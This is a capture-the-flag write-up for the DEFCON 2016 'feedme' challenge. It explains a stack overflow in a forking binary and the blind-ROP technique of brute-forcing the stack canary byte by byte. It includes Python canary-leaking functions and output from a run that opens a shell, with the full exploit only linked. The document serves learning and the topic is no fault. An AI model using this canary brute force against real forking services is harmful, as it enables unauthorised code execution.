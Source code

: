 ```yaml
---
layout: post
title: DEFCON CTF 2016 - feedme
author: hugsy
tags:  exploit defcon-2016 x86 brop
---
```


### Info ###

The vulnerable [file](http://s000.tinyupload.com/?file_id=04844403034783715754)
was given with the instructions:

    Don't forget to feed me
    http://www.scs.stanford.edu/brop/

Here are some info given by `gef`:
{% highlight bash %}
gef➤  !file ./feedme
./feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
gef➤  checksec
[+] checksec for '/home/vagrant/feedme'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
{% endhighlight %}

`feedme` is statically linked x86 binary that forks and then expects "to be fed"
with some input. Pretty simple, right?


### Vulnerability ###

The vulnerability in this case is easy to spot:
{% highlight bash %}
gef➤  c
Continuing.
[New process 1349]
FEED ME!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ATE 41414141414141414141414141414141...
*** stack smashing detected ***: /home/vagrant/feedme terminated

Program received signal SIGABRT, Aborted.
[Switching to process 1349]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[registers]──
$eax     0x00000000 $ebx     0x00000545 $ecx     0x00000545 $edx     0x00000006 $esp     0xffffd388 $ebp     0xffffd5f8
$esi     0xffffd518 $edi     0xffffd434 $eip     0xf7ffdba0 $cs      0x00000023 $ss      0x0000002b $ds      0x0000002b
$es      0x0000002b $fs      0x00000000 $gs      0x00000063 $eflags  [ IF ]
Flags: [ carry  parity  adjust  zero  sign  trap  INTERRUPT  direction  overflow  resume  virtualx86  identification ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[stack]──
0xffffd388│+0x00: 0xffffd5f8 → 0xffffd678 → 0x41414141		← $sp
0xffffd38c│+0x04: 0x6
0xffffd390│+0x08: 0x545
0xffffd394│+0x0c: 0x0807bed7 → cmp eax,0xfffff000
0xffffd398│+0x10: "A"
0xffffd39c│+0x14: 0x0804e3e1 → mov edx,DWORD PTR gs:0x8
0xffffd3a0│+0x18: 0x6
0xffffd3a4│+0x1c: 0xffffd3b4 → " "
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[code:i386]──
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9b	 <__kernel_vsyscall+11>  nop
0xf7ffdb9c	 <__kernel_vsyscall+12>  nop
0xf7ffdb9d	 <__kernel_vsyscall+13>  nop
0xf7ffdb9e	 <__kernel_vsyscall+14>  int    0x80
0xf7ffdba0	 <__kernel_vsyscall+16>  pop    ebp 		 ← $pc
[...]
{% endhighlight %}

The interesting function is at 0x08049036:

<!--more-->

![do-feedme](https://i.imgur.com/WLAWsAW.png)

This function basically will:

   1. `0x8049053-0x8049058`: call the `xread_char()` function, which will read 1
      character from stdin and store it in the stack variable (called `len`);
   1. `0x804905F-0x8049069`: use this variable as the number of byte to read from stdin in the call to
      `xread_buffer()`, and store the result in the stack buffer allocated,
      called `buf`, whose size is 0x20 bytes;
   1. `0x804907E-0x8049084`: copy the `buf` content to a bigger array (0x400 bytes) located at the
      address 0x80EBF40.
   1. `0x804909D-0x80490A7`check if the `canary` variable has been tampered with, if so leave in
      error.

So we have a traditional stack buffer overflow, where we need to bypass the
canary token.


### Exploitation ###

Before continuing, I would recommend reading the paper & slides related to the
[blind-rop technique](http://www.scs.stanford.edu/brop/) we're going to be using.

Since the child process is being forked, we know that the parent and child are
identical in every way, including the memory mapping and the canary token. So
the idea for this exploitation is to bruteforce one-by-one all the bytes from the
canary variable in stack, with the following binary logic: overwrite one byte of
the canary with a value, `X`. If we have a crash, it will mean that the canary is
corrupted, and therefore `X` is not valid. If it does not crash, then `X` is
valid, and we can reproduce this action with the following canary byte
(this is very analog to the exploitation of a colour-blind SQL
injection exploitation).

So we have this buffer:

{% highlight bash %}
+------------------------------+--------+
| A A A A A A A A A A A A A A A| 1 2 3 4|
+------------------------------+--------+
<-------- buffer -------------><-canary->
{% endhighlight %}

If we attempt to corrupt the first byte of the canary with a wrong value, our
process will be killed immediately and we will receive the message ("Child exit"):

{% highlight bash %}
+------------------------------+--------+
| A A A A A A A A A A A A A A A| X 2 3 4|
+------------------------------+--------+
<-------- buffer -------------><-canary->
{% endhighlight %}

But when the value for the byte is valid, the program will continue its
execution at 0x080490DF and display a message ("YUM, got...").
{% highlight bash %}
080490DF mov     [esp+4], eax
080490E3 mov     dword ptr [esp], offset aYumGotDBytes ; "YUM, got %d bytes!\n"
080490EA call    xprintf
{% endhighlight %}

So leaking one byte can be summed with the following Python code:

{% highlight python %}
def leak_canary_byte(s, prefix, off):
    for i in range(256):
        p = 'A'*32 + prefix + chr(i)
        xsend(s, p, len(p) )
        res = s.read_until("\n")
        res2 = s.read_until("\n")
        if res2 != "Child exit.\n":      # if we don't get the "Child exit." message, then our current value is correct
            return chr(i)
    return None
{% endhighlight %}

Once we have the value of the first byte, we resume the same operation with the
2nd and so on, until having the 4 bytes forming the canary.

{% highlight python %}
def leak_canary(s):
    can = ""
    for i in range(4):
        b = leak_canary_byte(s, can, i)
        if b is None:
            err("bail")
            exit(1)
        ok("Found canary[%d]=%.2x"%(i, ord(b)))
        can += b
    return can
{% endhighlight %}


We know control the execution flow without triggerring the `canary_fail()`
function. All we need to do is build the shellcode using regular ROP. Since the
binary is statically compiled, we have more gadgets than we need.

So wrap this all up in a
[final exploit](https://gist.github.com/hugsy/0f196cfb8c62a4c56fdbc424cb7883bf)
and you have code execution:

{% highlight bash %}
/ $ ./feedme.py                                                                                                                                                                             [18:58]
[+] Connected to 172.28.128.4:4092
[+] Leaking canary using BROP
[+] Found canary[0]=00
[+] Found canary[1]=0c
[+] Found canary[2]=77
[+] Found canary[3]=9a
[+] Using canary '0x9a770c00'
[+] Building shellcode
[+] Sending shellcode
[+] Switching to interactive...
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"   '
id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare)
You ran out of time, closing!
{% endhighlight %}

And find the flag `The flag is: It's too bad! we c0uldn't??! d0 the R0P CHAIN BLIND TOO`
